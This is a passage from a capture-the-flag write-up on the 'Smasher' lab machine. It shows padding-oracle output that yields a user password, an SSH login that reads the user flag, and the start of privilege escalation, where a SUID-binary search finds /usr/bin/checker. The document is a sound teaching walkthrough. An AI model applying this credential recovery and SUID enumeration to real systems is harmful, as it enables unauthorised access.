 A few lines stand out in the output:

```
b'utEFLXzYEkBmxXPAN4g253DC08NI06MbcWEOc94q0OU='
 user 'smasher' 42eb200bed0f389985bbe43762f1ba00cf6df8119be97dc4790f43bafb35d163
```

```
b'CaH58wii128IH3ksvFujmc9t+BGb6X3EeQ9Duvs10WM='
is: PaddingOraclde1ffb8adbdc35ac24caa42050f32100a3a852a3ab6882a2d8213186a4fb1776
```

```
b'ujCJcv+cH+VbLFWs7SPHdaOoUqOraIKi2CExhqT7F3Y='
eMaster123\x06\x06\x06\x06\x06\x06r
```

By putting this back together we get: `user 'smasher' is: PaddingOracleMaster123`

We can log in with that user and get the first flag:

```
root@kali:~# ssh smasher@10.10.10.89
smasher@10.10.10.89's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Tue Jun 12 01:24:51 2018 from 10.10.16.9
smasher@smasher:~$ id
uid=1001(smasher) gid=1001(smasher) groups=1001(smasher)
smasher@smasher:~$ ls
crackme.py  socat.sh  user.txt

smasher@smasher:~$ cat user.txt
baabc<redacted>
```

### Privesc

There's a SUID file that's interesting:

```
smasher@smasher:~$ find / -perm /6000 2>/dev/null
/usr/bin/checker
```

```
smasher@smasher:~$ checker
[+] Welcome to file UID checker 0.1 by dzonerzy

Missing arguments
```

```
smasher@smasher:~$ file /usr/bin/checker
/usr/bin/checker: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=33890d7446199d25dadc438fce63a78c3f377f95, not stripped
```
